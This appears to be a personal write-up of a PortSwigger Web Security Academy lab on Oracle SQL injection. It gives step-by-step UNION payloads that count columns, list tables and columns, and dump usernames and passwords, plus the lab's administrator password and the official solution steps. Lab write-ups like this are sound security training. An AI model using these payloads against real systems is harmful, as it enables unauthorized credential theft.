










# Lab: SQL injection attack, listing the database contents on Oracle

[Lab: SQL injection attack, listing the database contents on Oracle | Web Security Academy](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

- 💡Hint
    
    On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.
    
    There is a built-in table on Oracle called `dual` which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual`
    
    For more information, see our [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).
    


# Common Payload Attack

```sql
'--
```



# Identify the Number of Columns

```sql
'ORDER+BY+1--
```



```sql
'ORDER+BY+3--
```



# Identify the Column Data Types

```sql
'UNION+SELECT+'a',NULL+FROM+dual--
'UNION+SELECT+NULL,'a'+FROM+dual--
'UNION+SELECT+'a','a'+FROM+dual--
```



# List Database Tables

```sql
'UNION+SELECT+NULL,TABLE_NAME+FROM+all_tables--
```





<aside>
💡 Notable table `USERS_LPZQZW`

</aside>

# List User Columns

```sql
'UNION+SELECT+NULL,column_name+FROM+user_tab_cols+WHERE+table_name+=+'USERS_LPZQZW'--
```



# Retrieve Username and Password

```sql
'UNION+SELECT+USERNAME_XJECAH,PASSWORD_JFMVHC+FROM+USERS_LPZQZW--
```



# Login as `administrator`

```
administrator
4i66paqbm2zkaynp1msx
```





# Other Solutions

## Burp Suite

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter: `'+UNION+SELECT+'abc','def'+FROM+dual--`
3. Use the following payload to retrieve the list of tables in the database: `'+UNION+SELECT+table_name,NULL+FROM+all_tables--`
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table: `'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--`
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users: `'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--`
8. Find the password for the `administrator` user, and use it to log in.

## Community Solutions

Rana Khalil

[SQL Injection - Lab #10 SQL injection attack, listing the database contents on Oracle](https://youtu.be/ZbwIbIq5-eE)

Michael Sommer

[SQL injection attack, listing the database contents on Oracle (Video solution, Audio)](https://youtu.be/Q_UYsCZNb0o)

